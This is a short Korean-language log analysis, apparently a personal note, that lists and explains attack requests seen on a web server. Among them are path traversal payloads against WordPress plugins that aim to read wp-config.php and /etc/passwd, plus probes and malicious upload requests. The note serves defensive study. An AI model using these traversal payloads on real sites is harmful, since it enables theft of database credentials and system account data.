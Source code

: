 # WebServer attack log
<br><br>

#### WebServer attack log # mysite
```text
GET path="/wp-login.php?action=register"
GET path="/index.php?option=com_user&task=register"
GET path="/user/register"
```

#### WebServer attack log Case Study
```text
GET /wp-content/plugins/advanced-dewplayer/admin-panel/download-file.php?dew_file=../../../../wp-config.php
```
> wp-config.php 파일을 다운로드 받으려는 시도로 보입니다. 
> wp-config.php 파일에는 DB 접속 정보가 기록
> wp-config.php 파일이 유출되고 외부에서 DB 접근이 가능한 상태

<br>

```text
GET /wp-content/plugins/candidate-application-form/downloadpdffile.php?fileName=../../../../../../../../../../etc/passwd
```
>/etc/passwd 파일을 다운로드 받으려는 시도
>/etc/passwd 파일은 리눅스의 사용자 계정 정보가 담긴 파일입니다.

<br>

```text
GET /wp-content/plugins/work-the-flow-file-upload/admin/assets/js/admin.js
```
> 보안 취약점이 발견된 플러그인이 설치되어 있는지 확인하기 위한 요청
  
<br>

```text
POST /wp-content/plugins/dzs-zoomsounds/admin/upload.php
```  
> 보안취약점을 이용하여 악성코드를 서버로 업로드하려는 요청

<br>

```text
POST /license.php
```
> 플러그인 보안 취약점을 이용하여 license.php 파일을 업로드하고 이를 실행하기 위한 요청.
> license.php 파일의 내용은 코드를 알아볼 수 없게끔 난독화 되어 있습니다.
> 이런 파일은 발견하는 즉시 삭제해야 합니다. 

<br><br>
> 출처 : 단비스토어
> 본문에 오탈자 및 오류가 있을 경우 피드백 주시면 감사하겠습니다.